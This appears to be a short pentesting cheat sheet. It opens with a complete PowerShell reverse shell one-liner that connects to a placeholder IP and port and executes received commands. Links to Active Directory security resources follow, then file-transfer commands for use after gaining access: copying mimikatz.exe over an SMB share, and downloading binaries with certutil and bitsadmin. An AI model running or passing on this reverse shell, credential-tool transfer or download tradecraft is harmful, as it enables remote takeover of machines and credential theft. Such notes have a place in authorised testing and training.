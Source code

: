 # Reverse Shell

```$client = New-Object System.Net.Sockets.TCPClient("$IP$",$PORT$);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()```

# Formation AD Security 101

https://github.com/cfalta/adsec
https://beta.hackndo.com/
https://lolbas-project.github.io/

# File Transfer 

## SMB

sudo python3 smbserver.py ROPNOP /mnt/toto
net view \\10.9.68.115
COPY \\10.9.68.115\ROPNOP\mimikatz.exe .

## HTTP

certutil.exe -urlcache -split -f "https://ip/binaire" xxx.exe
bitsadmin /transfer myDownloadJob /download /priority normal http://downloadsrv/10mb.zip c:\10mb.zip

